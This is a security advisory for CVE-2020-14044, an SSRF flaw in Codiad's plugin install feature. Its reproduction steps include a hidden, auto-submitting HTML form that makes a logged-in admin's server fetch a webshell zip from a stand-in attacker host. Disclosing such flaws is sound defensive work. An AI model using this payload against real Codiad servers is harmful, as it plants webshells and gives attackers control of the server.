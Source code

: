 ```yaml
---
title: Codiad SSRF when installing a plugin
date: 2020-08-20
tags:
	- "php"
	- "ssrf"
	- "rce"
	- "webshell"
advisory: true
origin: https://advisory.checkmarx.net/advisory/CX-2020-4280/
cves:
	- "CVE-2020-14044"
---
```

## Summary
A Server-Side Request Forgery (SSRF) vulnerability was found in Codiad. A user with admin privileges could use the plugin install feature to make the server request any URL. This could potentially result in an RCE. Combined with other vulnerabilities, an unauthenticated attacker can manipulate the admin to exploit this vulnerability without their knowledge.

## Product
Codiad from v1.7.8.

## Impact
Malicious files could be downloaded to the server.

## Steps to reproduce
1. Login to codiad then visit the page:
```
<html><head></head>
<body>
<form style="opacity: 0;" action="http://[codiad_url]/components/market/controller.php?action=install&type=&name=Manually&repo=http://evilWebSite/webshell/webshell.zip?a=" method="GET">
<button>submit</button>
</form>

<script>document.querySelector('form').submit();</script>
</body></html>
```

### Expected result:
A webshell from ```http://evilWebSite/webshell/webshell.zip``` will be downloaded to the server.

## Remediation
There is no fixed version of Codiad.

## Credit
This issue was discovered and reported by Checkmarx SCA Security Researcher [Yaniv Nizry](https://twitter.com/ynizry).

## Resources
1. [Issue](https://github.com/Codiad/Codiad/issues/1122)
